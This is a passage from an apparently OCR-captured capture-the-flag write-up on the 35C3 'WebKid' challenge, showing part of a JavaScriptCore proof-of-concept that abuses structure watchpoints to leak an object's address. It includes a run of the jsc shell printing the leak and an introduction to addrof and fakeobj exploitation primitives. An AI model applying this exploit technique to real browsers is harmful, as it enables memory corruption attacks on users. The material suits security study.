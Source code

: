 ```javascript
    
    +-------------------+       +-------------------+       +-------------------+
    |                   |       |                   |       | (Watchpoint here)	|
    |  Original  array  | ----> | Added  property a | ----> | Added  property b |
    |                   |       | (current  struct) |       |                   |
    +-------------------+       +-------------------+       +-------------------+
*/

obj[0] = {};
/*
  Now we can do almost anything we want on obj. It will not trigger the Watchpoint
  on the structure "Added property b", since we're modifying a completely different
  object.
  Here I replaced the first element of the array from a double to an object.
  Printing it in the following instruction will leak its address.
    
    +-------------------+       +-------------------+       +-------------------+
    |                   |       |                   |       | (Watchpoint here)	|
    |  Original  array  | ----> | Added  property a | ----> | Added  property b |
    |                   |       |                   |       |                   |
    +-------------------+       +-------------------+       +-------------------+
                                          |
                                          |
                                          v
                                +-------------------+
                                |                   |
                                |  New typed array  |
                                | (current  struct) |
                                +-------------------+
*/

print(get_first_elmt()); // Leak of an object's address.
```

And, indeed, when launched it leaks the address of the object in the array (formatted as a double).

```
lyte ~/e/webkit> ./WebKitBuild/Debug/bin/jsc ../../ctf/35c3/webkid/WebKid/poc.js
2.256530957e-314
```

## The Exploit

The following section is dedicated to the exploitation of the vulnerability and will be heavily based on saelo's Phrack article.

In his article, he explains that exploitation is possible by crafting two primitives:

 * **addrof**, which leaks the address of an arbitrary JavaScript object;
 * **fakeobk**, which injects a fake JavaScript Object into the engine.

### Crafting addrof and fakeobj Primitives
